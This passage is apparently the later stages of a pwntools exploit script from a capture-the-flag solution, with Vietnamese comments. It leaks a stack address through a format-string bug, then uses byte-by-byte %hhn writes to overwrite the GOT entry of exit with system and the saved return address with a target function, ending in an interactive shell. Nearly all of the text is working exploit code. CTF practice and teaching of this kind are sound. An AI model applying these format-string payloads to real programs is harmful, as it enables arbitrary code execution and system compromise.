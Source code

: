 ```python 

##################################
### Stage 3:leak stack and ret ###
##################################

p.sendlineafter(b'phai lam gi day?????\n', b'%17$p') 
stack_leak = int(p.recvline()[:-1], 16)
ret = stack_leak - 0x100
log.info("stack leak: " + hex(stack_leak))
log.info("ret: " + hex(ret))

#############################################
### Stage 4: ow exit.got() = system.plt() ###
#############################################

system = exe.plt['system'] #plt.system
exit = exe.got['exit'] #got.ext

log.info("system: " + hex(system))

# in từ từ 1byte

for i in range(0,6):
    payload = f"%{system & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(exit) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    system = system >> 8
    exit += 1
    log.info("system: " + hex(system))


################################
### Stage 5: ow ret = exit_f ###
#################################

exit_f = exe.sym['exit_f'] + 5

for i in range(0,6):
    payload = f"%{exit_f & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(ret) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    exit_f = exit_f >> 8
    ret += 1
    log.info("exit_f: " + hex(exit_f))


p.sendlineafter(b'phai lam gi day?????\n', b"a"*15 ) # à tại đây nhập quá 12byte để out vòng lặp qua return nha

p.interactive()


```
